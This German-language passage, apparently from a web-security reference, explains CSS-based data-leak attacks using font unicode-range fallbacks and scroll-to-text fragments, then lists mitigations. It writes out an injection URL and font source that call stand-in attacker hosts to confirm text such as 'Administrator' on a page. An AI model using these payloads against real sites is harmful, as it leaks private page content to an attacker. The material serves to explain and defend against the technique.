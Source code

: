 ```html
</html>
```
1. **Verwendung von benutzerdefinierten Schriftarten**:
- Eine benutzerdefinierte Schriftart wird mit der Regel `@font-face` innerhalb eines `<style>`-Tags im `<head>`-Bereich definiert.
- Die Schriftart heißt `poc` und wird von einem externen Endpunkt (`http://attacker.com/?leak`) abgerufen.
- Die Eigenschaft `unicode-range` ist auf `U+0041` gesetzt, um das spezifische Unicode-Zeichen 'A' anzusprechen.

2. **Objektelement mit Fallback-Text**:
- Ein `<object>`-Element mit `id="poc0"` wird im `<body>`-Bereich erstellt. Dieses Element versucht, eine Ressource von `http://192.168.0.1/favicon.ico` zu laden.
- Die `font-family` für dieses Element ist auf `'poc'` gesetzt, wie im `<style>`-Bereich definiert.
- Wenn die Ressource (`favicon.ico`) nicht geladen werden kann, wird der Fallback-Inhalt (der Buchstabe 'A') innerhalb des `<object>`-Tags angezeigt.
- Der Fallback-Inhalt ('A') wird mit der benutzerdefinierten Schriftart `poc` gerendert, wenn die externe Ressource nicht geladen werden kann.

### Styling Scroll-to-Text Fragment

Die **`:target`** Pseudo-Klasse wird verwendet, um ein Element auszuwählen, das durch einen **URL-Fragment** angesprochen wird, wie in der [CSS Selectors Level 4-Spezifikation](https://drafts.csswg.org/selectors-4/#the-target-pseudo) angegeben. Es ist wichtig zu verstehen, dass `::target-text` keine Elemente übereinstimmt, es sei denn, der Text wird ausdrücklich durch das Fragment angesprochen.

Ein Sicherheitsproblem entsteht, wenn Angreifer die **Scroll-to-text** Fragmentfunktion ausnutzen, die es ihnen ermöglicht, das Vorhandensein bestimmter Texte auf einer Webseite zu bestätigen, indem sie eine Ressource von ihrem Server durch HTML-Injection laden. Die Methode besteht darin, eine CSS-Regel wie diese einzufügen:
```css
:target::before { content : url(target.png) }
```
In solchen Szenarien, wenn der Text "Administrator" auf der Seite vorhanden ist, wird die Ressource `target.png` vom Server angefordert, was auf die Anwesenheit des Textes hinweist. Eine Instanz dieses Angriffs kann durch eine speziell gestaltete URL ausgeführt werden, die das injizierte CSS zusammen mit einem Scroll-to-text-Fragment einbettet:
```
http://127.0.0.1:8081/poc1.php?note=%3Cstyle%3E:target::before%20{%20content%20:%20url(http://attackers-domain/?confirmed_existence_of_Administrator_username)%20}%3C/style%3E#:~:text=Administrator
```
Hier manipuliert der Angriff die HTML-Injektion, um den CSS-Code zu übertragen, der auf den spezifischen Text "Administrator" abzielt, durch den Scroll-to-text-Fragment (`#:~:text=Administrator`). Wenn der Text gefunden wird, wird die angegebene Ressource geladen, was unbeabsichtigt ihre Präsenz an den Angreifer signalisiert.

Zur Minderung sollten die folgenden Punkte beachtet werden:

1. **Eingeschränkte STTF-Übereinstimmung**: Das Scroll-to-text-Fragment (STTF) ist so konzipiert, dass es nur Wörter oder Sätze übereinstimmt, wodurch seine Fähigkeit, beliebige Geheimnisse oder Tokens zu leaken, eingeschränkt wird.
2. **Einschränkung auf Top-Level-Browsing-Kontexte**: STTF funktioniert ausschließlich in Top-Level-Browsing-Kontexten und nicht innerhalb von iframes, wodurch jeder Versuch der Ausnutzung für den Benutzer auffälliger wird.
3. **Notwendigkeit der Benutzeraktivierung**: STTF erfordert eine Benutzeraktivierungs-Geste, um zu funktionieren, was bedeutet, dass Ausnutzungen nur durch benutzerinitiierte Navigationen möglich sind. Diese Anforderung verringert erheblich das Risiko, dass Angriffe automatisiert ohne Benutzerinteraktion durchgeführt werden. Dennoch weist der Autor des Blogbeitrags auf spezifische Bedingungen und Umgehungen hin (z. B. Social Engineering, Interaktion mit verbreiteten Browsererweiterungen), die die Automatisierung des Angriffs erleichtern könnten.

